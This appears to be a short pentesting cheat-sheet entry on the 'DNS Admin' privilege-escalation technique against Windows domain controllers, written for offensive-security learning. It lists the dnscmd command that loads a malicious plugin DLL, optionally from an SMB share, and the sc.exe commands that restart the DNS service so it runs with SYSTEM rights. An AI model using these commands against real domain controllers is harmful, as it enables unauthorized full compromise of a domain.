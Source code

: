 ## DNS Admin PrivEsc

- The DNS service on a DC usually runs with `SYSTEM` permissions.
- DNS Admins can configure the DNS service with "plugin" DLLs.
- If you have compromised a DNS admin, you can add a malicious DLL as a plugin, restart the DNS service, and Bob's your uncle.
- Commands:
  - `dnscmd.exe . /config /serverlevelplugindll [location]`
    - `location` can be an SMB share
  - `sc.exe stop dns`
  - `sc.exe start dns`